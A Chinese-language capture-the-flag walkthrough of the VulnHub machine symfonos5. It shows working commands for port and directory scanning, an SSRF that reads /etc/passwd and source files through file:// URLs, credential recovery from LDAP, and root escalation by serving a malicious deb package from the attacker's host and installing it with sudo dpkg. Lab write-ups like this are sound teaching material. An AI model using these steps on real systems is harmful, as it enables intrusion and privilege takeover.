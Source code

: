 # symfonos5-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/symfonos-5,415/

**Description**

Beginner real life based machine designed to teach people the importance of understanding from the interior.

Tested on VMware and Virtualbox

**知识点**
- ssrf
- ldap
- dpkg 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.151` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.151
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/2.png)

SSH、web、ldap,ldap 一般比较少见,先从熟悉的 web 开始把

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/3.png)

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/4.png)

老样子,啥都没有,爆破目录,字典自 https://github.com/No-Github/AboutSecurity/blob/master/%E5%AD%97%E5%85%B8/Web%E5%AD%97%E5%85%B8/%E7%9B%AE%E5%BD%95/fast-scan.txt
```bash
./gobuster dir -u 192.168.141.151 -w fast-scan.txt
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/5.png)

访问下这个 admin.php 和 home.php

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/6.png)

home.php 会将我重定向到 admin.php,看看 html 源码

```
curl http://192.168.141.151/home.php
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/7.png)

这个熟悉的 127.0.0.1 看上去是 ssrf 啊,读文件试试

# 中期-漏洞利用

```
curl http://192.168.141.151/home.php\?url\=file:///etc/passwd
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/8.png)

尝试读 admin.php 的源码
```
curl http://192.168.141.151/home.php\?url\=file:///var/www/html/admin.php
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/9.png)

看上去是 LDAP 的凭证。

ldap管理工具有 ldapadmin，JXplorer 等,这里就用 ladpadmin 测试了

访问 https://sourceforge.net/projects/ldapadmin/ 下载安装包,我下的是windows版的,就不演示 linux 平台了

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/10.png)

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/11.png)

连接后可以看到有个 zeus 用户和其密码

SSH 连接上去,寻找提权的方法

---

# 后期-提权

```
sudo -l
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/12.png)

dpkg 以 root 权限运行,上 https://gtfobins.github.io/ 找下 dpkg 相关的内容

在 kali 上运行
```
gem install --no-document fpm
TF=$(mktemp -d)
echo 'exec /bin/sh' > $TF/x.sh
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF

python -m SimpleHTTPServer 8080
```

完成后靶机下载POC
```
wget 192.168.141.134:8080/x_1.0_all.deb
sudo dpkg -i x_1.0_all.deb
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/13.png)

提权成功,感谢靶机作者 Zayotic,和 mzfr 分享的 writeup
